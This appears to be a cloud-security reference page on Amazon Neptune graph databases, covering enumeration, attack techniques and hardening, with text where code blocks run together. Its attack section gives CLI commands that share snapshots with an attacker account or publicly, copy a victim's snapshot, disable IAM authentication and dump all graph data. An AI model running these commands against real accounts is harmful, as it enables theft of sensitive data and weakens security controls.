

Amazon Neptune is a managed graph database service supporting Apache TinkerPop Gremlin, W3C SPARQL, and openCypher query languages. All access is through a single port (8182) via HTTPS, WebSocket (Gremlin), and Bolt (openCypher) protocols. Neptune clusters run exclusively inside a VPC, but public endpoints can be enabled. The bulk loader ingests data from S3 via an IAM role attached to the cluster.
Neptune exposes a single HTTPS endpoint on port 8182 for Gremlin (HTTPS + WebSocket), SPARQL (HTTPS), and openCypher (HTTPS + Bolt). Clusters are created inside a VPC and accessed via VPC security groups. IAM authentication can be enabled, requiring SigV4-signed requests for all data-plane operations.
Manual cluster snapshots can be shared cross-account or made public. The Neptune bulk loader ingests data from S3 via an IAM role attached to the cluster, requiring an S3 VPC endpoint. Notebook instances (SageMaker-based) provide interactive Gremlin/SPARQL/openCypher access.
Graph databases often store relationship-rich data (identity graphs, fraud networks, knowledge graphs) that is extremely sensitive. The absence of native authentication (IAM auth is opt-in), single-port access model, and snapshot-sharing capabilities create significant risk.
aws neptune describe-db-clustersaws neptune describe-db-instancesaws neptune describe-db-cluster-snapshotsaws neptune describe-db-cluster-parameter-groupsaws neptune describe-db-cluster-parameters \
--db-cluster-parameter-group-name default.neptune1.3aws neptune describe-db-cluster-snapshot-attributes \
--db-cluster-snapshot-identifier my-snapshotaws neptune describe-event-subscriptionsg.V().valueMap() to dump all vertices and propertiesSELECT * WHERE { ?s ?p ?o } to dump all triplesMATCH (n) RETURN n to dump all nodesaws neptune modify-db-cluster-snapshot-attribute \
--db-cluster-snapshot-identifier my-snapshot \
--attribute-name restore \
--values-to-add ATTACKER_ACCOUNT_IDaws neptune modify-db-cluster-snapshot-attribute \
--db-cluster-snapshot-identifier my-snapshot \
--attribute-name restore \
--values-to-add allaws neptune restore-db-cluster-from-snapshot \
--db-cluster-identifier attacker-cluster \
--snapshot-identifier my-snapshot \
--engine neptuneaws neptune copy-db-cluster-snapshot \
--source-db-cluster-snapshot-identifier arn:aws:rds:us-east-1:VICTIM_ACCOUNT:cluster-snapshot:my-snapshot \
--target-db-cluster-snapshot-identifier stolen-snapshot \
--region eu-west-1aws neptune modify-db-cluster \
--db-cluster-identifier target-cluster \
--no-enable-iam-database-authenticationcurl -X POST https://NEPTUNE_ENDPOINT:8182/gremlin \
-d '{"gremlin":"g.V().valueMap(true).toList()"}'{
"DBClusterIdentifier": "my-cluster",
"Engine": "neptune",
"IAMDatabaseAuthenticationEnabled": false,
"StorageEncrypted": false,
"DeletionProtection": false,
"EnableCloudwatchLogsExports": []
}No authentication, no encryption, no audit trail — complete exposure to anyone with network access.
{
"DBClusterIdentifier": "my-cluster",
"Engine": "neptune",
"IAMDatabaseAuthenticationEnabled": true,
"StorageEncrypted": true,
"KmsKeyId": "arn:aws:kms:REGION:ACCOUNT:key/KEY_ID",
"DeletionProtection": true,
"EnableCloudwatchLogsExports": ["audit"]
}IAM auth enforced, encrypted at rest with CMK, deletion protection on, audit logs exported to CloudWatch.
{
"IpPermissions": [{
"IpProtocol": "tcp",
"FromPort": 8182,
"ToPort": 8182,
"IpRanges": [{"CidrIp": "0.0.0.0/0"}]
}]
}Neptune port 8182 open to the entire internet.
{
"IpPermissions": [{
"IpProtocol": "tcp",
"FromPort": 8182,
"ToPort": 8182,
"UserIdGroupPairs": [{
"GroupId": "sg-app-servers"
}]
}]
}Only application server security group can connect to Neptune.
Require SigV4-signed requests for all data-plane access.
aws neptune modify-db-cluster \
--db-cluster-identifier my-cluster \
--enable-iam-database-authenticationEncryption must be set at cluster creation time — it cannot be enabled later.
aws neptune create-db-cluster \
--db-cluster-identifier my-cluster \
--engine neptune \
--storage-encrypted \
--kms-key-id arn:aws:kms:REGION:ACCOUNT:key/KEY_IDExport audit logs to CloudWatch for monitoring and alerting.
aws neptune modify-db-cluster \
--db-cluster-identifier my-cluster \
--cloudwatch-logs-export-configuration \
'{"EnableLogTypes":["audit"]}'Prevent accidental or malicious cluster deletion.
aws neptune modify-db-cluster \
--db-cluster-identifier my-cluster \
--deletion-protectionKeep Neptune in private subnets. Never enable public endpoints for production clusters. Use security groups that only allow traffic from application subnets.
Never build Gremlin, SPARQL, or openCypher queries via string concatenation with user input. Neptune Gremlin uses ANTLR grammar and does not support parameterized queries (bindings) -- use strict input validation and sanitization instead. For openCypher, use parameterized queries where supported. For SPARQL, use input validation to prevent injection.